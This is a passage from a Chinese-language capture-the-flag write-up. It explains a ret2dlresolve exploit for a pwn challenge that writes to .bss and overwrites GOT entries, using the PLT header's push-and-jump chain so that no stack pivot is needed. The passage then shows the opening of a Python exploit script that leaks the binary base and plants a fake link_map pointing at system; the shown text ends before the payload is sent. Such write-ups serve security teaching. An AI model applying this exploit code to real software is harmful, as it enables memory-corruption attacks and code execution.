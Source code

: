 接下来要完成利用，还要构造出 `[my_buf, 0]` 的栈布局并且调用到 `plt0 + 6` 的位置，这对于常规 ret2dlresolve 栈溢出的例题而言并不困难，但是本题只能篡改 `.bss` 段上的内存，没有提供栈上 ROP 的能力，通常会想到**栈迁移**之类的做法，不过这里还有更简单的解法

![[static/wp-infosec2024-0.png]]
![[static/wp-infosec2024-1.png]]

我用 ropper 看了一下，题目中并没有 push 相关的 gadget，也难以直接改变栈上数据，但是 plt 头部本身就提供了先 `push 0x0` 再 jump 到 plt0 的位置 `push [_GLOBAL_OFFSET_TABLE_+8]` 的调用链，got 表又是可写的，因此就免去了栈迁移的麻烦。

因此可以篡改 puts 以外的某个函数的 got 表项到上面 `0x555555555034` 的位置，再布置好 GOT 表上 `[_GLOBAL_OFFSET_TABLE_+8] = my_buf` 实现利用，最终 exp 如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc(
    "/home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6"
)

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(data):
    ru(b"isadbg> ")
    sl(data)


cmd(b"subscribe")
ru(b"\t2. Monthly\n")
s(b"3")
ru(b"Unsupported choice: ")
elf_base = int(ru(b"\n", drop=True), 10) - 0x4033
lg("elf_base", elf_base)


def send_payload(base, payload):
    for i in range(len(payload)):
        cmd(b"set " + hex((i * 8) + base).encode() + b" " + hex(payload[i]).encode())


my_buf = elf_base + 0x4000 + 0x300
l_addr = libc.sym.system - libc.sym.puts
r_offset = my_buf + 0x200 - l_addr
fake_rel_addr = my_buf + 0x38

if l_addr < 0:
    l_addr = (1 << 64) + l_addr

lg("l_addr", l_addr)

dynstr = elf.get_section_by_name(".dynstr").header.sh_addr + elf_base
plt0 = elf.get_section_by_name(".plt").header.sh_addr + elf_base
lg("my_buf", my_buf)
lg("dynstr", dynstr)
```